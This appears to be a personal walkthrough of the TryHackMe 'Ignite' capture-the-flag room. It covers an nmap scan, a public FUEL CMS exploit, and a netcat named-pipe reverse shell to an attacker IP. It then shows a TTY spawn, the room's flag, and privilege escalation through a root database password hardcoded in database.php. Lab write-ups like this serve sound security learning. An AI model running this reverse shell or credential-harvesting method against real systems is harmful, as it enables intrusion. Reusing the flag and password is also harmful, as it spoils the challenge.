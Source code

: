 # Matheus Jesus 04-04-2020

## Try Hack Me - [Ignite](https://tryhackme.com/room/ignite)

### [Ref](https://unicornsec.com/home/tryhackme-ignite)

### IP 10.10.214.229

### Net scan

nmap -sC -sV -oN nmap_initial 10.10.214.229

port 80 open

### Exploit DB

https://www.exploit-db.com/exploits/47138

* Download the Exploit
* Edit it (IP)
* Execute and write commands to be ran on the server

### NC Netcat

On Local
nc -nlvp 1337

On remote
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.5.234 1337 >/tmp/f

#### Commands to be ran on the reverse shell

* cd /home/www-data
* ls
* cat flag.txt (6470e394cbf6dab6a91682cc8585059b)

#### Spawn TTY (To access Root)

On local NC:
python -c 'import pty; pty.spawn("/bin/bash")'

#### Privilege Escalation

The http://10.10.214.229:80 says:

Install the FUEL CMS database by first creating the database in MySQL and then importing the fuel/install/fuel_schema.sql file. After creating the database, change the database configuration found in fuel/application/config/database.php to include your hostname (e.g. localhost), username, password and the database to match the new database you created.

##### Commands

* locate database.php (/var/www/html/fuel/application/config/database.php)
* cat database.php

```php
 $db['default'] = array(
'dsn' => '',
'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
'dbdriver' => 'mysqli',
'dbprefix' => '',
'pconnect' => FALSE,
'db_debug' => (ENVIRONMENT !== 'production'),
'cache_on' => FALSE,
'cachedir' => '',
'char_set' => 'utf8',
'dbcollat' => 'utf8_general_ci',
'swap_pre' => '',
'encrypt' => FALSE,
'compress' => FALSE,
'stricton' => FALSE,
'failover' => array(),
'save_queries' => TRUE
);
```

#### root password is HARDCODED

DONE!

